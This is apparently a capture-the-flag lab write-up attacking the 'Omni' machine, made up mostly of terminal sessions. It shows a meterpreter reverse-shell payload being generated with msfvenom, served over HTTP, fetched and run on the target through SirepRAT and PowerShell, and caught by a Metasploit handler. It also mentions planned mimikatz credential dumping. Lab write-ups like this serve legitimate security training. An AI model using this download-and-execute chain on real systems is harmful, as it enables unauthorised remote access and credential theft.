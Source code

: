 ```
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::10f5/64 scope global 
       valid_lft forever preferred_lft forever
    inet6 fe80::e5ce:35cd:5d87:707a/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever

```
The IP of the Kali machine (on the VPN) is 10.10.14.247. 
Again, the IP of the Omni machine is (still) 10.10.10.204

Now, setting up an HTTP server to upload payload (/tmp/payload.exe) for reverse shell.
```
msf6 exploit(multi/handler) > msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.247 LPORT=4444 -f exe -o /tmp/payload.exe
[*] exec: msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.247 LPORT=4444 -f exe -o /tmp/payload.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: /tmp/payload.exe

┌──(kali㉿kali)-[/tmp]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

(myvenv) ┌──(kali㉿kali)-[~/Downloads/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe -command Invoke-WebRequest -Uri http://10.10.14.247:8000/payload.exe -Outfile C:\Windows\system32\payload.exe"

<HResultResult | type: 1, payload length: 4, HResult: 0x0>

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.247
lhost => 10.10.14.247
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.247:4444 

(myvenv) ┌──(kali㉿kali)-[~/Downloads/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe -command C:\Windows\system32\payload.exe"
```
The above is not working (firewall?) :( Maybe it's time to read some hints. 
However, here is my guess on the next steps. First, get shell. Then, mimikatz and crack password hashes. ??? Profit (get the flags for each user). Done. 
(Looking at the hints, it seems much simpler than mimikatz, although it might be cool to do that for fun...)
